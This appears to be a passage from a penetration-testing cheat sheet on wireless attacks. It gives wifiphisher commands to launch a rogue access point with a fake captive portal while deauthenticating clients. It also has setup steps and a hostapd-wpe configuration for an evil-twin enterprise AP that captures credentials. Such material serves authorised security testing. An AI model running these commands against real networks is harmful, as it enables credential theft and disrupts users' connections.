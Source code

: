 
#### wifiphisher

* [https://github.com/wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher)
* [Creating a custom phishing scenario · wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher/blob/5ae21ab93e0dce85dd4bf76e68cc3b996aa33dea/docs/custom_phishing_scenario.rst)

Install:

```
$ git clone https://github.com/wifiphisher/wifiphisher.git ~/tools/wifiphisher && cd ~/tools/wifiphisher
$ sudo python3 setup.py install # Install any dependencies
```

Start a rogue AP with fake captive portal (firmware update scenario) on wlan1 and deauth clients with wlan2:

```
$ sudo wifiphisher -aI wlan1 -eI wlan2 -p wifi_connect
```



### Enterprise

* [https://medium.com/@adam.toscher/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2](https://medium.com/@adam.toscher/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2)
* [https://solstice.sh/iii-eap-downgrade-attacks/](https://solstice.sh/iii-eap-downgrade-attacks/)


#### hostapd-wpe

* [https://pentest.blog/attacking-wpa-enterprise-wireless-network/](https://pentest.blog/attacking-wpa-enterprise-wireless-network/)
* [https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html](https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html)
* [https://codeby.net/threads/vzlom-wpa-2-enterprise-s-pomoschju-ataki-evil-twin.59920/](https://codeby.net/threads/vzlom-wpa-2-enterprise-s-pomoschju-ataki-evil-twin.59920/)

1\. Install dependencies:

```
$ sudo apt install libnl-3-dev libssl-dev
$ sudo apt install hostapd-wpe
```

2\. Install and configure hostapd-wpe:

```
$ sudo vi /etc/hostapd-wpe/hostapd-wpe.conf
...
interface=wlan1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ssid=NotEvilTwinAP
channel=1
hw_mode=b
auth_server_addr=127.0.0.1
auth_server_port=18120
auth_server_shared_secret=S3cr3t!
wpa_pairwise=TKIP CCMP
```
